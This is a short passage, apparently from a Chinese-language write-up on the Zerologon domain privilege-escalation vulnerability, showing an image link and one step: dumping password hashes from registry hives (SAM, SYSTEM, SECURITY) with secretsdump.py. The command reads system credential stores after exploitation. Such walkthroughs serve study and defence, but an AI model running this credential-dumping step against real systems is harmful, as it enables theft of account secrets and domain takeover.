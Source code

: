     ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2018.png)
    
    通过注册表转储导出 HASH：
    
    ```
    python3 secretsdump.py -sam sam.hive -system system.hive -security security.hive LOCAL
    ```
    